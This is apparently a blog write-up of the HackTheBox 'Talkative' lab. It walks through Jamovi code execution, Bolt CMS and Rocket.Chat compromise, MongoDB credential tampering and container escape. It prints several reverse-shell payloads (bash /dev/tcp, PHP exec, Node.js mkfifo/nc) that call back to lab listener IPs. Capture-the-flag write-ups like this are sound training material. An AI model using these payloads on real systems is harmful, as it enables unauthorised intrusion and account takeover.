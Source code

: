 ```yaml
---
title: Talkative HackTheBox Writeup
tags: [boltcms,writeup,hackthebox,rocketchat,cap-dac-read-search,jamovi,mongodb]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/1.png)

## Scanning
We run nmap on ports with scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/2.png)

## Enumeration
Add the domain "*talkative.htb*" in the file "*/etc/hosts*", access to the web service

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/3.png)

We list a few users:
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/4.png)

We see that the cms is a **Bolt CMS**:
![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/5.png)

On port 3000 we have a **rocket.chat**, we found nothing useful on it.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/6.png)

On port 8080 we have a **Jamovi**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/7.png)

We list **Jamovi** version *0.9.5.5.5*:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/8.png)


## Exploitation

```bash
system("id", intern=TRUE)
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/9.png)

We are trying to get up a revshell, although if we access it will probably be to a content...


```bash
system("bash -c 'bash -i >&/dev/tcp/10.10.14.32/443 0>&1'", intern=TRUE)
```

We get a connection to the server, we are effectively in a **docker**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/10.png)

We check the root directory, we see the **jamovi*** folder and an *.omv* file of the **Bolt** administration (remember the CMS we detected earlier).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/11.png)

As I didn't have netcat, I encoded it in base64 and passed it to my computer.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/12.png)

I didn't get complicated, used *grep -r* to search for keywords like "*password*", the passwords of several users came up.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/13.png)

We tried to test the credentials found, but none of them worked.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/14.png)

So I tried with classic users like "*root, admin...*" and the latter worked!

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/15.png)

We can't upload php files from the file upload, but we can edit existing php files, in my case I edited the "*bundles.php*" and inserted a revshell:

```bash
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.32/443 0>&1'")
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/16.png)

We set **netcat** to listen and we receive the connection:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/17.png)

We see that we are in another container:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/18.png)

**Ping** does not exist on the machine, so I did a **curl** to *172.17.0.1* and listed the web service.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/19.png)

We test the credentials via **SSH**, get access as *saul* and read the user flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/20.png)


## Privilege Escalation
We launch **linpeas.sh** and list what could be vulnerable to *SUDO* and *Polkit*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/21.png)

We didn't find much else, so we launch the **pspy** tool and see that a file called "*update_mongo.py*" is running as root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/22.png)

It looks like the **rocket.chat** one is the one running with the **mongo**, but we don't know which **docker** it is running on.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/23.png)

So I launched a loop on the default port of **mongodb** to see the server response via a **curl**, I saw that the **mongodb** is located on the machine with IP *172.17.0.2*:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/24.png)

We port forward port *27017* with **Chisel** so we can work locally.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/25.png)

Connect to **mongodb** and list several databases:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/26.png)

We access the "*meteor*" database and list the **rocket.chat** tables:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/27.png)

We list the user "*saul*" and his password in bcrypt:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/28.png)

We tried the three passwords we have, but none of them is valid, but as we have access to the db we could modify it for one we know by changing the hash in bcrypt:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/29.png)

We are able to access the panel as administrator:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/30.png)

We list the version of **rocket.chat**:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/31.png)

Searching for the version, I found this exploit:
##### Exploit: [https://github.com/CsEnox/CVE-2021-22911](https://github.com/CsEnox/CVE-2021-22911)

Although code can also be executed from **MondoDB** integrations (which is what this exploit below does).

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/32.png)

```bash
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.62 555 >/tmp/f');
```

We run curl and get a revshell:

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/33.png)

We transfer the **linpeas.sh** tool and run it, it shows us that we have *cap-dac-read-search* capability. Looking for information of the exploitation, I found this tool that I did not know it and I believe that it was the ideal moment after the return of the vacations to know new tools.

#### Tool: [CDK](https://github.com/cdk-team/CDK)

We see some goodness of **cdk** and we see that there is the "*cap-dac-read-search*", which comes perfectly to try to read the file *root.txt*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/34.png)

We run it and manage to read the file root.txt.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/Talkative/35.png)




